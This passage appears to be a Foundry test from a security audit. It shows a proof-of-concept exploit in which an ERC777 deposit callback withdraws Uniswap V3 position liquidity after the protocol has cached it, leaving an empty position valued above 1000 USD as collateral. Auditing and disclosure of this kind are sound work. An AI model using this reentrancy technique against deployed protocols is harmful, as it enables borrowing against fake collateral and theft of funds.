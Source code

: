             address[] memory assetAddresses = new address[](2);
            assetAddresses[0] = address(mockERC20.token777);
            assetAddresses[1] = address(nonfungiblePositionManager);
            uint256[] memory assetIds = new uint256[](2);
            assetIds[0] = 0;
            assetIds[1] = tokenId;
            uint256[] memory assetAmounts = new uint256[](2);
            assetAmounts[0] = 1; // no need to send more than 1 wei as the ERC777 only serves to trigger the callback
            assetAmounts[1] = 1;
            // Set approvals
            IERC721(address(nonfungiblePositionManager)).approve(address(proxyAccount), tokenId);
            mockERC20.token777.approve(address(proxyAccount), type(uint256).max);
    
            // Perform deposit. 
            // Deposit will perform two steps:
            // 1. processDeposit(): this step will handle the deposited assets and verify everything is correct. For uniswap positions, the liquidity in the position
            // will be stored in the `assetToLiquidity` mapping.
            // 2.Transferring the assets: after processing the assets, the actual asset transfers will take place. First, the ER777 colallateral will be transferred. 
            // This will trigger the callback in the accountOwnerContract (the account owner), which will withdraw all the uniswap position liquidity. Because the uniswap 
            // position liquidity has been cached in step 1 (processDeposit()), the protocol will still believe that the uniswap position has some liquidity, when in reality
            // all the liquidity from the position has been withdrawn in the ERC777 `tokensToSend()` callback. 
            proxyAccount.deposit(assetAddresses, assetIds, assetAmounts);
    
            //----------       FINAL ASSERTIONS       ----------//
            // Collateral value fetches the `assetToLiquidity` value cached prior to removing position liquidity. This does not reflect that the position is empty,
            // hence it is possible to borrow with an empty uniswap position.
            uint256 finalCollateralValue = proxyAccount.getCollateralValue();
    
            // Liquidity in the position is 0.
            (
                ,
                ,
                ,
                ,
                ,
                ,
                ,
                uint128 liquidity,
                ,
                ,
                ,
            ) = nonfungiblePositionManager.positions(tokenId); 
    
            console.log("Collateral value of account:", finalCollateralValue);
            console.log("Actual liquidity in position", liquidity);
    
            assertEq(liquidity, 0);
            assertGt(finalCollateralValue, 1000 ether); // Collateral value is greater than 1000 USD
        } 
    